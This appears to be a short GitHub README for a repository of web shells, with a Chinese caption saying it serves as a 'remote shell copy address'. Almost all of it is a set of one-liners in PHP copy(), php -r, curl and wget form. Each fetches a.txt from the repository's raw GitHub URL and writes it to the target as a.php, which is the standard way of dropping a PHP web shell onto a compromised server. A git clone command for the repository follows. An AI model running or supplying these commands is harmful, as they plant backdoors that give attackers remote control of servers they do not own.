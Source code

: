 # shells
> 用于作为远程shell copy地址
```php
copy('https://raw.githubusercontent.com/LTLTLXEY/shells/main/a.txt','a.php');
```
```shell
php -r copy('https://raw.githubusercontent.com/LTLTLXEY/shells/main/a.txt','a.php');
```
```shell
curl https://raw.githubusercontent.com/LTLTLXEY/shells/main/a.txt -o a.php
```
```shell
wget https://raw.githubusercontent.com/LTLTLXEY/shells/main/a.txt -O a.php
```
# FUZZ EXT
```shell
git clone https://github.com/LTLTLXEY/shells.git
```
